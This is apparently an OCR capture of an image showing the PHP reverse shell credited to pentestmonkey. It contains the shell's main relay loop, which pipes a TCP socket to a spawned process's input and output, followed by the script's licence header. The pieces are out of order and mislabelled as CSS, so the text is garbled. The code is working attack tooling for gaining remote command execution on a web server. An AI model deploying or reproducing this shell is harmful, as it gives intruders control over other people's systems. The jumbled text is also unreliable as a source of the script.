 ```css
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?><?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
```